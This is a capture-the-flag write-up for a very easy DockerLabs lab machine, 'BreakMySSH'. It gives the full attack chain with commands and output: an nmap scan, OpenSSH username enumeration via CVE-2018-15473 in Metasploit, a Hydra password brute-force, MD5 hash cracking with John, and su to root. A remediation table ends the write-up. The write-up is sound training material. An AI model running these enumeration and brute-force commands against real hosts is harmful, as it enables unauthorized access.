



# BreakMySSH — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Very Easy · **Target IP:** 172.17.0.2 · **Attacker IP:** 172.17.0.1

## Summary

BreakMySSH is a very easy machine centered entirely around a single exposed service: SSH. The path to root involves enumerating valid usernames through an OpenSSH vulnerability, brute-forcing weak credentials, discovering a hashed password left in a world-readable file, cracking it, and escalating directly to root via `su`.

**Attack chain:** Recon → SSH username enumeration (CVE-2018-15473) → Hydra brute-force → SSH login as `lovely` → Manual enumeration finds hashed password in `/opt/.hash` → Hash cracked with John → `su root` → root

## 1. Reconnaissance

Confirmed the host was reachable, then ran a full TCP port scan with service/version detection and default scripts.

```bash
ping -c 5 172.17.0.2
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```


**Results:**

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | ssh | OpenSSH 7.7 (protocol 2.0) |

Only one port open. With a single service exposed, and the machine's own name ("BreakMySSH") hinting at the intended attack surface, SSH was the sole avenue to enumerate.

## 2. SSH Enumeration

OpenSSH 7.7 is affected by **CVE-2018-15473**, a username enumeration vulnerability that abuses a timing/response discrepancy during authentication, allowing an attacker to confirm whether a given username exists without valid credentials.

Ran Metasploit's `ssh_enumusers` auxiliary module against the target:

```
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 172.17.0.2
set USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
run
```

**Output:**

```
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
```

Most results are standard Debian system accounts. The standout is `lovely` — not a default system account, and therefore the likely real user on this box.

## 3. Credential Brute-Force

With a confirmed valid username, ran a password brute-force against SSH using Hydra and the `rockyou.txt` wordlist.

```bash
hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```



```
[22][ssh] host: 172.17.0.2   login: lovely   password: rockyou
1 of 1 target successfully completed, 1 valid password found
```

**Credentials found:** `lovely:rockyou`

## 4. Initial Access

Logged in over SSH with the recovered credentials:

```bash
ssh lovely@172.17.0.2
# password: rockyou
```

Successful login as `lovely` on a Debian GNU/Linux host.

```bash
whoami   # lovely
id       # uid=1000(lovely) gid=1000(lovely) groups=1000(lovely)
```

## 5. Post-Exploitation

Manually browsed the filesystem looking for leftover secrets. Found a hidden file in `/opt`:

```bash
lovely@9f6c02f83935:/opt$ ls -la
total 12
drwxr-xr-x 1 root root 4096 May 11  2024 .
drwxr-xr-x 1 root root 4096 Aug 12 23:55 ..
-rw-r--r-- 1 root root   33 May 11  2024 .hash

lovely@9f6c02f83935:/opt$ cat .hash
aa87ddc5b4c24406d26ddad771ef44b0
```



A 32-character hex string, consistent with an MD5 hash.

Cracked it with John the Ripper against `rockyou.txt`:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```
estrella         (?)
1g 0:00:00:00 DONE (2026-08-12 20:28) 100.0g/s 38400p/s 38400c/s 38400C/s
```

**Cracked value:** `estrella`

## 6. Privilege Escalation

With a plausible root password in hand, escalated directly with `su`:

```bash
lovely@9f6c02f83935:~$ su root
Password: estrella
```



```bash
root@9f6c02f83935:~# whoami
root
root@9f6c02f83935:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Root achieved. No flag was present on this machine — the objective was full root compromise.

## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| Outdated OpenSSH (7.7) vulnerable to username enumeration | Upgrade OpenSSH to a patched version; rate-limit and monitor authentication attempts |
| Weak, wordlist-guessable user password (rockyou) | Enforce strong, unique passwords and/or disable password authentication in favor of SSH keys |
| Hashed credential left in a world-readable file (`/opt/.hash`) | Never store credentials, even hashed, in world-readable locations; restrict permissions and remove leftover secrets from production |
| No password complexity enforced for root | Enforce strong root password policy; disable direct root login where not required |
